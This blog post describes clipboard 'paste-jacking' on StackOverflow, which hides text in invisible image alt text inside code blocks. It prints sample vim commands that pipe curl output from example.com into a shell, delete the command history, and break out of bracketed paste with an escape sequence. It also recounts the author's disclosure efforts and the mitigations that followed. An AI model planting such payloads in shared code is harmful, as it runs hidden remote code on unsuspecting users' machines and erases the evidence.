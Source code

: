 ```yaml
---
layout: post
title: Clipboard subversion on StackOverflow
---
```

Because Markdown is really a mixture of Markdown syntax and raw HTML to
fill in gaps where Markdown can't do the job, having user-generated
content in Markdown format doesn't help to curb malicious content.
Users are still publishing HTML and have opportunities to embed
something malicious or sneaky.

In the case of StackOverflow, you end up being able to do things like
switch to `<pre>` formatting without escaping all of the contained text
as raw code; so you can embed HTML in the blocks which look like the
code you would want to copy-paste, but with surprise semantics.

The obvious thing is to put some text in a block marked invisible, but
there are mitigations preventing that because that would be a sneaky
thing to do.  Instead you can embed images, and provide alt text for
those images, and you can make those images practically invisible,
and when people copy the text in that code block they'll also
pick up the alt text which they couldn't see on the web page.

Like so:
```markdown
Here is my solution:

<pre>my<img src="https://example.com/invisible_image.gif" alt=" malicious" /> code</pre>

It's really good!
```

You can go try things out in a [sandbox][].  Be warned that not
everything that appears in the preview window is going to turn out
exactly the same once you post it.

Imagine the possibilities!

And yes, I _have_ reported those possibilities which I could imagine to
Stack Exchange.  More on that later.

If you're clever then you might be able to drop in an extra character
somewhere which has a profound effect on the meaning of the code.

You can also emulate non-printing keystrokes by sending their escape
sequences or control codes.  This leads applications to take actions
based on those keystrokes rather than inserting them into an edit buffer
as plain old text.

What sort of keystrokes might you insert?  It depends on where you
expect that the text will be pasted.  Maybe a newline, to make a command
execute before the user is ready; and/or some backspaces to subtly
modify the text after it's been reviewed (replace an 8 with an &, for
example).

But those can be detected easily.  Something more nefarious would be to
target a text editor.  Let's take a crack at vim, for example.
To maximise the chances that the user will be using vim when they
paste your text try offering something to be pasted somewhere like
`~/.vimrc`.  If somebody wants to modify that file what editor do you
think they're going to use?  Typically not emacs.

So if you know you're in vim you could embed something like an escape
character, to enter command mode, and then some commands, like these
ones:

```vim
:call system('(curl -s https://example.com/evilcode|sh)&')
:call histdel('cmd','evilcode')
```

The first executes a shell to get curl to download some code and run it;
and it does so in the background rather than waiting for it to finish.
The second deletes every history entry containing `evilcode`, so it
deletes evidence of our malicious act and, conveniently, it deletes
itself as well.

After that drop back into insert mode and keep adding plausible text to
the file to clear the status line of the result of the last command.

Notice that these are both short commands which will almost certainly
fit on one line.  If they're longer then there's a much greater risk
that the drawing and redrawing of a multi-line command buffer will be
visible to the user, if only in a brief flash which might attract
unwanted attention.

And tere we go.  Running arbitrary code on a random SO user's computer,
and they can't see us doing it!  What fun!

Would I be telling you this if it was really so easy?  No.  OK, maybe.
But it's not.

To mitigate this the terminal and application or shell should be using
[bracketed paste][], which ensures that pasted text is surrounded by
delimiters which indicate that it shouldn't be interpreted as escape
sequences but raw text to be inserted into the file or whatever.

But those delimiters are what?  They're escape sequences.  So you just
put the end marker for bracketed paste into your text in order to make
everything after that be interpreted by the application as keyboard
input again -- just like before bracketed paste was a thing.

Like so:
```html
<img &hellip; alt="&#27;[201~ keyboard input here" />
```

Thankfully a lot of terminals (and after a few months of prodding developers, a few more terminals) strip out some control codes
from pasted text, and this breaks the ability to embed the codes
necessary to escape bracketed paste mode this way.

OSX's Terminal.app even brings up a message box explicitly telling you
you're under attack if it sees the relevant escape sequence.  I think
that's great.  Most other terminals just strip out control codes in some
way or other.

I can't promise that all terminals are filtering correctly, though.

But of course there's yet another potential weakness.  If you can get an
incomplete escape sequence sent then the application can be tricked into
_missing_ the begin-bracketed-paste escape sequence.  To illustrate this
you can simply hit Escape right before pasting something into the
terminal when it should be using bracketed paste.  The resulting
double-escape can cause the bracketed paste opening to be mis-parsed, so
everything that follows is still seen as keystrokes.  You might not be
able to send escapes, but you might still get backspace and newline
through.

To set up such preconditions might take a bit of network timing
manipulation, or remarkable knowledge of unfixed bugs in termcap
entries, or some kind of social engineering to exploit this, so maybe
we're all safe.

I can't promise that, though.

So you might be asking "where's the responsible disclosure?".  Well, I
went through it all years ago.  I tried to cut this off at StackOverflow
first (don't let people embed surprise text, don't let people embed
control codes in text), and then in the browser (don't copy control
codes embedded in HTML text), and then in some terminals (don't let
escape sequences escape the esape sequence that says to ignore other
escape sequences).  For the most part the issue was dismissed as
somebody else's problem, and everybody preferred to keep things as they
are rather than risk breaking some unspecified case which somebody might
be using legitimately.

The only people to take me seriously were Apple, and I got an SVE out of
it for my efforts.  That's probably because I gave them a whole proof of
concept which ran arbitrary code and made it invisible to the user that
arbitrary code had been run (except that I waved a flag to say it had
happened to prove it).

Of course there are still gaps that I see.  There will always be gaps
when systems we rely on are assembled the way they are.  There is a
_lot_ I do not agree with in the way things were designed, here.  The
intrinsic weakness of layers upon layers of escape sequences is absurd
to me, but it's also industry standard and an evergrowing problem as
people design more systems which function this way.  It's become
normalised and there's no stopping it anymore.

The other thing that frustrates me about reporting
vulnerabilities is when they're only superficially addressed.
Just enough to stop me digging any deeper.
When the front door is open you can make a case for security in depth
by pointing out consequential weaknesses behind the door and asking for them all
to be fixed, but too often the reaction is to just close the
door.  What happens when somebody else finds an open window?

Maybe by the time you read this the ability to embed image alt text will have been superficially addressed and you'll have to look for an open window.  Good luck!

[bracketed paste]: <https://en.wikipedia.org/wiki/Bracketed-paste>
[sandbox]: <https://meta.stackexchange.com/q/3122/227423>
[My PoC]: <https://security.stackexchange.com/a/183377>
